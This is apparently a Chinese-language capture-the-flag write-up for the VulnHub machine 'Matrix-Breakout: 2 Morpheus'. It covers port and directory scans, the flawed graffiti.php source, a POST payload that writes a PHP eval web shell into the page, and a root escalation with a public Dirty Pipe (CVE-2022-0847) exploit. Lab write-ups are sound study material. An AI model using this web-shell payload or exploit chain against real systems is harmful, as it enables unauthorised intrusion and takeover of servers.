 ```yaml
---
sidebar_position: 5
tags: [Easy, Linux, LFI, 代码执行, CVE]
title: "MATRIX-BREAKOUT: 2 MORPHEUS"
sidebar_label: "MATRIX-BREAKOUT: 2 MORPHEUS"
---
```

# MATRIX-BREAKOUT: 2 MORPHEUS
## 端口扫描
```bash
jtz@attacker:~$ nmap -sTCV -p- --min-rate 1000 192.168.1.8
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 15:39 CST
Nmap scan report for morpheus (192.168.1.8)
Host is up (0.019s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|_  256 aa83c351786170e5b7469f07c4ba31e4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
|_http-title: Morpheus:1
|_http-server-header: Apache/2.4.51 (Debian)
81/tcp open  http    nginx 1.18.0
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Meeting Place
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## 80
```bash
jtz@attacker:~/CTF/VulhHub/MARRIX$ gobuster dir -u http://192.168.1.8/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,html,php===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.8/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
2023/12/16 16:29:54 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 348]
/.html                (Status: 403) [Size: 276]
/.php                 (Status: 403) [Size: 276]
/javascript           (Status: 301) [Size: 315] [--> http://192.168.1.8/javascript/]
/robots.txt           (Status: 200) [Size: 47]
/graffiti.php         (Status: 200) [Size: 459]
/graffiti.txt         (Status: 200) [Size: 142]
/.php                 (Status: 403) [Size: 276]
/.html                (Status: 403) [Size: 276]
/server-status        (Status: 403) [Size: 276]
Progress: 881686 / 882244 (99.94%)
===============================================================
2023/12/16 16:35:47 Finished
===============================================================
```
之后访问其中的 `graffiti.php` 请求, 发现其参数比较特殊, 根据其内容我们知道目标是针对 `graffiti.txt` 文件, 我们可以借此尝试文件包含漏洞的利用

![20240524135026](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524135026.png)

经过了一系列的尝试, 我发现并不知道直接去阅读文件, 这个看起来是读取我们传入的内容并将其存储到 graffiti.txt 文件中, 之后读取 graffiti.txt 文件内容显示出来, 可以借此来尝试 PHP 伪协议进行攻击

![20240524135042](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524135042.png)
```php

<?php
$file="graffiti.txt";
if($_SERVER['REQUEST_METHOD'] == 'POST') {
    if (isset($_POST['file'])) {
       $file=$_POST['file'];
    }
    if (isset($_POST['message'])) {
        $handle = fopen($file, 'a+') or die('Cannot open file: ' . $file);
        fwrite($handle, $_POST['message']);
	fwrite($handle, "\n");
        fclose($file); 
    }
}

// Display file
$handle = fopen($file,"r");
while (!feof($handle)) {
  echo fgets($handle);
  echo "<br>\n";
}
fclose($handle);
?>
<p>
Enter message: 
<p>
<form method="post">
<label>Message</label><div><input type="text" name="message"></div>
<input type="hidden" name="file" value="graffiti.txt">
<div><button type="submit">Post</button></div>
</form>
```
之后将其解密我们可以看到对应的加密内容, 之后我们审查源代码, 我发现这是一个先指定文件追加内容的功能,或者读取指定文件的内容, 借此我们可以尝试向 `graffiti.php` 文件中追加一段内容进行代码执行
```php
message=<%3fphp+%40eval($_POST['cmd'])%3b+%3f>&file=graffiti.php
```
![20240524135119](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524135119.png)
## 后渗透
### www-data
之后我们就可以借此来获取一个 Shell
![20240524135143](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524135143.png)
### www-data --> root
之后上传 Linpeas.sh 脚本进行执行我们可以发现存在一个 CVE 漏洞
![20240524135203](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524135203.png)
之后在 Github 搜索到 [CVE-2022-0847](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)进行利用最终获取到了对应的 root 权限
![20240524135250](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524135250.png)
## 扩展
### docker
```bash
www-data@morpheus:/tmp$ df
df
Filesystem     1K-blocks    Used Available Use% Mounted on
/dev/sda1        5042396 1958536   2843356  41% /
udev              225352       0    225352   0% /dev
tmpfs             241956       0    241956   0% /dev/shm
tmpfs              48392     572     47820   2% /run
tmpfs               5120       0      5120   0% /run/lock
/dev/sda15        126678    6016    120662   5% /boot/efi
overlay          5042396 1958536   2843356  41% /var/lib/docker/overlay2/d13e48a56e3ab95baad2c1aef075980aecbd25b19ae91ef7edac46c7a944c08d/merged
tmpfs              48388       0     48388   0% /run/user/0
```
执行 `df` 命令后, 我们可以看到其中有一个 docker 的目录, 可惜没有什么用